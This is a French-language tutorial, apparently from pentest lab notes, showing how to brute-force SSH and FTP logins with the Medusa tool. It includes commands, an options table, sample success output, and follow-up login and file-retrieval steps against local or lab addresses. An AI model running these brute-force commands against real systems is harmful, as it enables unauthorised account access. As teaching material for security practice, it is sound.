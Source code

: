 # Web Services : Medusa

## <mark style="color:red;">**Introduction**</mark>

Dans le domaine de la cybersécurité, les mécanismes d'authentification robustes sont essentiels pour protéger les services critiques tels que :

* **SSH** : Protocole réseau cryptographique pour un accès sécurisé à distance.
* **FTP** : Protocole de transfert de fichiers vulnérable lorsqu'il utilise des identifiants faibles ou transmis en clair.

Medusa est un outil de brute-forcing rapide et modulaire permettant d’identifier des vulnérabilités d'authentification sur ces services.

***

## <mark style="color:red;">**Utilisation de Medusa pour Brute-Force**</mark>

Medusa permet de tester systématiquement des combinaisons utilisateur/mot de passe. Exemple général de commande :

```bash
medusa -h <IP> -n <PORT> -u <USERNAME> -P <WORDLIST> -M <MODULE> -t <THREADS>
```

**Options Principales :**

<table data-full-width="true"><thead><tr><th>Option</th><th>Description</th><th>Exemple</th></tr></thead><tbody><tr><td><code>-h &#x3C;IP></code></td><td>Spécifie l'adresse IP cible.</td><td><code>-h 192.168.0.10</code></td></tr><tr><td><code>-n &#x3C;PORT></code></td><td>Spécifie le port du service (par défaut SSH = 22, FTP = 21).</td><td><code>-n 22</code></td></tr><tr><td><code>-u &#x3C;USERNAME></code></td><td>Définit un utilisateur unique.</td><td><code>-u sshuser</code></td></tr><tr><td><code>-P &#x3C;WORDLIST></code></td><td>Spécifie une liste de mots de passe à tester.</td><td><code>-P passwords.txt</code></td></tr><tr><td><code>-M &#x3C;MODULE></code></td><td>Sélectionne le module du service cible (SSH, FTP, etc.).</td><td><code>-M ssh</code></td></tr><tr><td><code>-t &#x3C;THREADS></code></td><td>Définit le nombre de tentatives parallèles.</td><td><code>-t 5</code></td></tr></tbody></table>

***

### <mark style="color:blue;">**Exemple : Attaque SSH**</mark>

<mark style="color:green;">**Commande**</mark>**&#x20;:**

{% code fullWidth="true" %}
```bash
medusa -h 192.168.0.100 -n 22 -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
```
{% endcode %}

<mark style="color:green;">**Résultat attendu :**</mark>

Medusa teste chaque mot de passe de la liste jusqu'à trouver le bon :

{% code fullWidth="true" %}
```plaintext
ACCOUNT FOUND: [ssh] Host: 192.168.0.100 User: sshuser Password: 1q2w3e4r5t [SUCCESS]
```
{% endcode %}

<mark style="color:green;">**Accès au système :**</mark>

Connectez-vous via SSH :

```bash
ssh sshuser@192.168.0.100 -p 22
```

***

### <mark style="color:blue;">**Exemple : Attaque FTP**</mark>

<mark style="color:green;">**Commande :**</mark>

{% code fullWidth="true" %}
```bash
medusa -h 127.0.0.1 -u ftpuser -P 2023-200_most_used_passwords.txt -M ftp -t 5
```
{% endcode %}

<mark style="color:green;">**Résultat attendu :**</mark>

{% code fullWidth="true" %}
```plaintext
ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: ftpuser Password: ftp_pass123 [SUCCESS]
```
{% endcode %}

<mark style="color:green;">**Connexion FTP et récupération de fichiers :**</mark>

1.  **Connexion FTP** :

    ```bash
    ftp ftp://ftpuser:<PASSWORD>@localhost
    ```
2.  **Récupération du fichier** :

    ```bash
    get flag.txt
    ```
3.  **Lecture du fichier** :

    ```bash
    cat flag.txt
    ```

***

#### <mark style="color:green;">**Exploration des Services**</mark>

1.  **Vérifier les ports ouverts** avec `netstat` ou `nmap` :

    ```bash
    netstat -tulpn | grep LISTEN
    nmap localhost
    ```
2. Identifier d'autres services comme FTP ou HTTP pouvant être vulnérables.

***

```bash
medusa -h <IP> -n <PORT> -u <USERNAME> -P <WORDLIST> -M <MODULE> -t <THREADS>
ssh <USERNAME>@<IP> -p <PORT>
ftp ftp://<USERNAME>:<PASSWORD>@<IP>
```

👉 **But : Identifier les vulnérabilités pour mieux les corriger.**
